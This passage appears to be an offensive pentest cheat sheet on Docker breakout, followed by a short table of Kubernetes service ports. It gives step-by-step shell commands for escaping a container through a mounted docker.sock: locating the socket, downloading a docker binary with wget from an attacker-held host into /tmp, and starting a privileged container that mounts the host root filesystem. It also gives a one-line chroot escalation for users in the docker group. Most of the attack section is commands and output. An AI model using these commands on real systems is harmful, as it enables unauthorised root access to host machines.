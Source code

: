 check [hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

#### Mounted Docker Socket privesc
suppose we are on a docker container and we want to break out to the system and get root access 
```shell
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
```
install [docker](https://master.dockerproject.org/linux/x86_64/docker)
```shell
/tmp$ wget https://<parrot-os>:443/docker -O docker
/tmp$ chmod +x docker
/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
```
We can create our own Docker container that maps the host’s root directory (/) to the /hostsystem directory on the container
```shell
# we must use the same image we are on it
/tmp$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

# log in to the new privileged Docker container with the ID 7ae3bcc818af and navigate to the /hostsystem.
/tmp$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash

```

#### Docker host system privesc
- user we are logged in with must be in the docker group.
- Docker may have SUID set, or we are in the Sudoers file, which permits us to run docker as root.
```shell
id

docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

```shell
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

### Kubernetes


| Service             | TCP Ports       |
|---------------------|-----------------|
| etcd                | 2379, 2380      |
| API server          | 6443            |
| Scheduler           | 10251           |
| Controller Manager  | 10252           |
| Kubelet API         | 10250           |
| Read-Only Kubelet API | 10255         |
